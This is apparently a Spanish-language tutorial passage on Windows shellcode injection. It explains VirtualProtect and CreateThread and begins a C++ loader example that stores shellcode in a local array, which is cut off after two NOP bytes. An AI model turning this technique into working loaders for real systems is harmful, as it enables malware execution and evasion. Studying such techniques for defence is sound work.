 ### VirtualProtect()

Esta función, es utilizada para modificar los atributos de protección en el espacio de momoria reservado dinámicamente dentro del contexto del proceso en ejecución.
Pertenece a la librería kernel32.dll
Los parámetros de entrada serán los siguientes:

```c++
BOOL VirtualProtect(
  LPVOID lpAddress,      // Posición de momoria inicial a la que se la quiera modificar la protección
  SIZE_T dwSize,         // Longitud  en bytes desde la posición inicial a la ques e le quiere modificar la protección inicial
  DWORD  flNewProtect,   // Nueva propiedad/es de protección solicitadas. PAGE_EXECUTE_READ, PAGE_EXECUTE_READWRITE, PAGE_READWRITE, etc.
  PDWORD lpflOldProtect  // Puntero a la antigua variable que contenia la protección
);
```
Si la función termina la ejecución de forma satisfactoria devolvera un valor diferente de 0, en caso contrarío devolverá 0.

### CreateThread()

Esta función, es utilizada para la creaciónd eun nuevo hilo en el contexto del proceso actual, para la ejecución del código almacenado en una posición de memoria.
Pertenece a la libraría kernel32.dll
Los parámetros de entrada serán los siguientes:

```c++
HANDLE CreateThread(
  LPSECURITY_ATTRIBUTES   lpThreadAttributes,  // Determina el si tiene herencia o no del proceso hijo del que cualga el hilo que se va a ejecutar.
  SIZE_T                  dwStackSize,         // Tamaño de la pila en memoria en bytes
  LPTHREAD_START_ROUTINE  lpStartAddress,      // Puntero a la dirección de memoria de la función que será ejecutada por el hilo
  LPVOID                  lpParameter,         // Puntero a la posición de memoria de los parámetros de entrada 
  DWORD                   dwCreationFlags,     // Flags de ejecución, despues de creación tiempo de delay,etc
  LPDWORD                 lpThreadId           // Puntero a la variable que almacenará el Identificador del thread que se va a ejecutar
);
```
Si la función termina la ejecución de forma satisfactoria, delvolvera el identificador del hilo, en caso contrario devolverá el valor NULL.

## Inyeccion en .text

Código de ejemplo, el shellcode se almacena dentro de una variable local en el código fuente:
```c++
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(void) {
    
	void * exec_mem;
	BOOL rv;
	HANDLE th;
    DWORD oldprotect = 0;

	unsigned char payload[] = {
		0x90,		// NOP
		0x90,		// NOP
```